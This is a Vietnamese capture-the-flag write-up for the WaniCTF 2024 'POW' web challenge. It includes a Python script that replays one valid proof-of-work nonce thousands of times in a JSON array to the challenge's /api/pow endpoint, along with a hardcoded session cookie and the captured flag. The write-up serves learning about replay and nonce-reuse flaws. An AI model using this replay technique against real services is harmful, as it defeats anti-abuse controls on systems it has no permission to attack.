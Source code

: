 # POW

![342194670-c86802d9-0f81-4d72-87e3-631920d89343](https://github.com/LDV-SpaceK/WaniCTF2024/assets/152776722/ab9cf379-df80-4cad-9d27-d71e19146f1d)


- Recon:

  + ta có thông tin về client status và server status có vẻ client_status đang check số hợp lệ từ đó server sẽ tăng lên 1 ứng với mỗi giá trị hợp lệ
 
  + checking thì ta có thêm thông tin về json của server /api/pow đang ở progress là 0/1000000 vì client chưa tìm được giá trị hợp hợp lệ
 
  + theo đề bài là ta cần tìm giá trị hợp lệ qua cách tính crypto hash nhưng ta sẽ tìm qua hành vi của trang web
 
- Exploit:

   + 2 cách để exploit có thể là dùng python hoặc brupsuite
 

+ brupsuite:

![342203686-a5abce81-84ac-48cb-907b-8a4ce0bbfb5b](https://github.com/LDV-SpaceK/WaniCTF2024/assets/152776722/9f00b1cd-4a22-403c-a1ef-fadd7866c43a)


- ta lấy được giá trị hợp lệ là 2862152 và ta sẽ cho vào array json với giá trị tăng dần đến 1000000

![342205870-e2be6721-0db3-45cd-9a9c-de7f0a06fb49](https://github.com/LDV-SpaceK/WaniCTF2024/assets/152776722/90064355-84d0-47d5-9fd6-f80aa6323031)


+ dùng python chạy loop tới 

payload:

```
import requests

# URL của API
url = 'https://web-pow-lz56g6.wanictf.org/api/pow'

# Tạo payload với 5000 phần tử '2862152'
payload = ['2862152'] * 20000

# Cookies
cookies = {
    'pow_session': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzZXNzaW9uSWQiOiIzMzU0ODI1Ny0zYzc2LTQ5MjYtYjc0Yy0yM2NkZWU5YjVhYTkifQ.vOmdV80weNiFDGcKSSg1fZwB1LDboRwlaIJnEN8uFJI'
}

# Lặp 20 lần để gửi yêu cầu POST
for _ in range(20):
    # Gửi yêu cầu POST và lấy phản hồi
    response = requests.post(url, json=payload, cookies=cookies)

    # In ra nội dung phản hồi
    print(f"Response {_ + 1}: {response.text}")

```

![342257284-33d5965a-7622-4274-aefc-182a66d546ff](https://github.com/LDV-SpaceK/WaniCTF2024/assets/152776722/600e5f33-6371-48da-b71a-53362fcac7dc)


=> ta sẽ send response đến server với giá trị hợp lệ và kết nối tăng trong array 

![342258434-be9c5f20-3675-478a-9800-b474ca4722b0](https://github.com/LDV-SpaceK/WaniCTF2024/assets/152776722/7c4a2d41-00f9-4a56-90eb-288ee61e45dd)





=> flag = FLAG{N0nCE_reusE_i$_FUn}
